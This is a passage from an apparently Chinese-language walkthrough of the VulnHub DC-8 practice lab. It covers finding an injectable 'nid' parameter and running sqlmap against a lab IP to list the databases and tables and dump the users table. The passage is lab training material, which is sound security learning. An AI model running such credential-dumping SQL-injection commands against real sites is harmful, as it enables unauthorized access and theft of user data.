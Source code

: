 都不行,还有一个 CVE-2018-7602 需要认证,就先 pass

点击左侧链接,出现 nid 参数,这个参数貌似可以注入

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/4.png)

SQLMAP 走起
```
sqlmap -u http://192.168.141.141/?nid=1 --dbs --batch
sqlmap -u http://192.168.141.141/?nid=1 -D d7db --tables --batch
sqlmap -u http://192.168.141.141/?nid=1 -D d7db -T users --dump --batch
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/5.png)

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/6.png)
